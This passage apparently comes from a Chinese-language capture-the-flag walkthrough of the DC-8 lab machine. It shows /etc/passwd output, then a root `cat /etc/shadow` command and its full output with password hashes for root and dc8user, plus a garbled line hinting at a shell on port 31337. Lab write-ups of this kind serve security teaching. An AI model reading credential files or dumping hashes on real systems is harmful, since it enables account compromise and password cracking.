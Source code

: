 ```
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
dc8user:x:1000:1000:dc8user,,,:/home/dc8user:/bin/bash
mysql:x:107:112:MySQL Server,,,:/nonexistent:/bin/false
Debian-exim:x:108:113::/var/spool/exim4:/bin/false
```

- 通过root权限查看敏感信息`cat /etc/shadow`

```
cat etclocalhost [127.0.0.1] 31337 (?) open
cat /etc/shadow
root:$6$hpnGzStq$WhB2YFhPJ/4EIda9Rz1Ud/YTyjw3WC0aQbFCjDr.6GqzPHYn8iaAoUJBZ/EtURd6GCTntjIITj4dEuvKTHb2F1:18143:0:99999:7:::
daemon:*:18143:0:99999:7:::
bin:*:18143:0:99999:7:::
sys:*:18143:0:99999:7:::
sync:*:18143:0:99999:7:::
games:*:18143:0:99999:7:::
man:*:18143:0:99999:7:::
lp:*:18143:0:99999:7:::
mail:*:18143:0:99999:7:::
news:*:18143:0:99999:7:::
uucp:*:18143:0:99999:7:::
proxy:*:18143:0:99999:7:::
www-data:*:18143:0:99999:7:::
backup:*:18143:0:99999:7:::
list:*:18143:0:99999:7:::
irc:*:18143:0:99999:7:::
gnats:*:18143:0:99999:7:::
nobody:*:18143:0:99999:7:::
systemd-timesync:*:18143:0:99999:7:::
systemd-network:*:18143:0:99999:7:::
systemd-resolve:*:18143:0:99999:7:::
systemd-bus-proxy:*:18143:0:99999:7:::
_apt:*:18143:0:99999:7:::
messagebus:*:18143:0:99999:7:::
sshd:*:18143:0:99999:7:::
dc8user:$6$WcokQy.1$zuDayNe3rXOOiXlnxUF6vLnJE0GMLHsFkmjSVRkibLS.FQEB52biDTgaKpxQX2rwNnS6OQwVbuWYnEeh7ieii0:18143:0:99999:7:::
mysql:!:18143:0:99999:7:::
Debian-exim:!:18143:0:99999:7:::
```

- 目前基本上确定了有两个用户`root`和`dc8user`